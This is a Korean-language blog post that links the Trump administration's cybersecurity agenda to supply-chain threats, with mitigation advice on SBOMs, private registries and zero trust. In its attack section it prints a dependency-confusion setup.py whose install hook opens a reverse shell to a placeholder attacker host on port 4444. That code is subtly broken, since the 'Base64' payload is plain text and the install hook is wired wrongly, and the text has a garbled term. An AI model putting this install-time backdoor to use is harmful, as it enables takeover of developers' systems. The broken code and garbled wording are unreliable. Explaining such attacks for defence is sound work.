

# 신정부 보안 아젠다와 기술적 함의

트럼프 행정부가 발표한 5가지 주요 사이버 보안 의제는 CISA의 역할 재정립, 공급망 보안 강화, 그리고 AI 기반 위협 대응에 초점을 맞추고 있습니다. 특히 민관 협력 모델의 변화와 공격적 사이버 작전의 강조는 기업의 보안 아키텍처에 근본적인 변화를 요구합니다. 이번 글에서는 이러한 정책적 변화가 실제 공격 시나리오에 어떻게 적용되는지 기술적으로 분석하고, 실무자가 취해야 할 방어 전략을 제시합니다. 정책의 흐름을 읽고 보안 태세를 재정비하는 것이 중요한 시점입니다.

## 개요 (Introduction)

최근 발표된 트럼프 행정부의 사이버 보안 아젠다는 국가 안보의 패러다임을 '수동적 방어'에서 '적극적 억제'로 전환하겠다는 의지를 보여주고 있습니다. 핵심은 정부 기관뿐만 아니라 민간 인프라에 대한 규제 간소화와 자율성 부여이지만, 이는 동시에 기업들이 자체적인 위협 탐지 및 대응 능력을 극대화해야 함을 의미합니다.

이러한 정책적 변화는 단순한 행정의 변화를 넘어, 해커들의 공격 표적과 공격 기법의 변화를 유도할 수 있습니다. 예를 들어, 정부 주도의 규제가 완화되면 일부 기업은 보안 투자를 축소할 위험이 있으며, 이는 공격자들에게 취약한 공급망을 노리는 호기로 작용할 수 있습니다. 따라서 보안 전문가로서 우리는 정책의 표면적인 내용을 넘어, 이것이 실제 공격 벡터(Attack Vector)와 취약점 지도에 미치는 영향을 면밀히 분석해야 합니다.

## 기술적 분석 (Technical Analysis)

이번 보안 아젠다의 가장 큰 기술적 특징은 **'공급망(Supply Chain) 보안'의 우선순위 상승**과 **'AI 기반 위협 방어'의 명문화**입니다. 기술적으로 볼 때, 공급망 공격은 더 이상 단순한 오픈 소스 라이브러리의 취약점을 악용하는 차원을 넘어섭니다. 공격자들은 CI/CD 파이프라인을 직접 타겟팅하거나, 신뢰할 수 있는 서명 인증서를 도용하여 악성 코드를 배포하는 복합적인 기법을 사용합니다.

또한, 행정부가 강조하는 '규제 완화'는 보안 컴플라이언스(Compliance)의 최소 기준만 충족하면 되는 것으로 오해할 수 있습니다. 하지만 실제 위협 환경에서는 컴플라이언스와 보안(Security)은 별개의 문제입니다. 공격자들은 정부의 가이드라인보다 한 발 빠르게 변형하는 제로데이(Zero-day) 취약점과 생활 면해킹(Living-off-the-Land) 기법을 활용합니다. 특히 AI를 활용한 피싱 공격과 악성코드 생성 자동화는 기존의 시그니처 기반 방어 체계(Signature-based Defense)를 무력화시킬 가능성이 높습니다.

아래 다이어그램은 정책 변화에 따른 위협 환경의 변화와 공격자의 접근 경로를 시각화한 것입니다.



## 실제 공격 예시 (Attack Example)

정부가 공급망 보안의 중요성을 강조하는 반대편에서, 공격자들은 이를 악용한 **'의존성 혼동(Dependency Confusion)'** 공격을 감행할 수 있습니다. 공격자는 자신이 제어하는 내부 패키지와 이름이 같지만 악성 코드가 포함된 퍼블릭 패키지를 생성합니다. 개발자가 로컬 환경에서 이를 의존성으로 추가할 때, 시스템이 공개 저장소의 악성 패키지를 다운로드하게 만드는 시나리오입니다.

다음은 이러한 공격 시나리오를 시뮬레이션한 Python 코드 예시입니다.

```python
# 공격자가 PyPI 등의 공개 저장소에 업로드하는 악성 패키지 코드 예시 (setup.py 일부)
from setuptools import setup
import base64
import os

# 백도어 설치 스크립트 (Base64 인코딩되어 은폐됨)
PAYLOAD = """
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker-controlled-ip",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
"""

def install_backdoor():
    # 설치 시점에 백도어 실행
    decoded_payload = base64.b64decode(PAYLOAD)
    exec(decoded_payload)

setup(
    name="internal-corp-module", # 타겟 기업의 내부 모듈명과 동일하게 설정
    version="1.0.0",
    packages=['internal_corp_module'],
    # install 후킹을 통한 악성 코드 실행
    cmdclass={'install': install_backdoor}
)
```

이 PoC(Proof of Concept)는 패키지 설치 시점에 역접속(Reverse Shell)을 시도하는 간단한 백도어를 보여줍니다. 만약 기업이 내부 패키지 저장소(Private Registry) 설정을 엄격하게 관리하지 않는다면, 개발자의 `pip install` 명령어 한 줄이 인프라 전체의 장악당하게 됩니다. 이는 신정부의 민간 자율성 강조 기조 하에서, 기업이 내부 거버넌스를 소홀히 할 경우 겪을 수 있는 구체적인 위협입니다.

## 완화 조치 (Mitigation)

이러한 위협에 대응하기 위해 우선 **SBOM(Software Bill of Materials)** 도입을 필수화해야 합니다. 사용하는 모든 오픈 소스와 라이브러리의 목록과 버전을 명확히 관리하고, 의존성 관리 도구(Dependency Management Tools)를 통해 자동으로 취약점을 스캔해야 합니다.

둘째, **패키지 소스 제어(Source Control)**를 강화해야 합니다. 내부적으로 사용하는 패키지는 프라이빗 저장소(Private Artifact Repository)에서만 관리하도록 설정하고, 공개 저장소(NPM, PyPI 등)로의 의존성 해결을 차단하거나 엄격한 검증 절차(Vulnerability Scanning)를 거치도록 구성해야 합니다. 예를 들어, `.npmrc` 파일에 `registry=http://internal-npm.repo`를 설정하여 공개 저장소 접근을 원천 차단하는 방법입니다.

셋째, 정부의 정책 기조와 상관없이 **제로 트러스트(Zero Trust)** 아키텍처를 완성해야 합니다. 내부 네트워크라 하더라도 신뢰하지 않으며, 모든 접근과 요청에 대해 지속적인 검증을 수행해야 합니다. 특히 AI 기반의 이상 탐지(AI-driven Anomaly Detection) 시스템을 도입하여, 알려진 시그니처가 없는 공격(알 수 없는 취약점 공격, 신규 랜섬웨어 등)을 조기에 탐지할 수 있어야 합니다.

## 보안 시사점 (Security Implications)

트럼프 행정부의 보안 아젠다는 "정부의 개입을 줄이고 기업의 자율성과 능력을 강화한다"는 점에서 기술적 파급력이 큽니다. 이는 보안 전문가에게는 기회이자 위기입니다. 규제 중심의 보안이 아닌, 실제 위협(Threat-based) 중심의 보안으로 전환해야 생존할 수 있습니다.

향후 5년 내 공급망을 통한 공격과 AI 기반 자동화 공격은 더욱 정교해질 것입니다. 정부의 가이드라인에만 의존하는 '컴플라이언스 보안'은 더 이상 유효하지 않습니다. 기업은 자체적인 Red Team(적군팀) 운영을 통해 상시 공격 시뮬레이션을 수행하고, DevSecOps를 문화로 정착시켜 개발 단계부터 보안을 내장해야 합니다. 정치적 상황에 휘둘리지 않고, 보안의 본질인 '가용성, 무결성, 기밀성'을 지키는 실력을 갖추는 것이 무엇보다 중요합니다.

## 참고자료

- [Five updates on the Trump admin's cybersecurity agenda - Federal News Network](https://news.google.com/rss/articles/CBMiqwFBVV95cUxNNjlzT2k3Qy1VNTJsRGNTbnR3NVpEQVAzWXR4eENSR3BEVXUxZHdyU0tVZEJXd19MMi1TOHpvS1RHdndsRlhwa2dtbGNjTmZHcms4WWFOaTh1aXVEOUVjR2Z6R2FpVjNtVEJJUDZEMkdGeFlGbnZRdkx6Nl95THc0SGhlbzFtZ2lEbTVISXI3TTIyNGVQZlhhLUtmSGtScjJ4d3cyNmludFRKdFk?oc=5)
- [CISA (Cybersecurity and Infrastructure Security Agency) Guidelines](https://www.cisa.gov/)
- [OWASP Dependency Confusion](https://owasp.org/www-community/attacks/Dependency_Confusion)

---
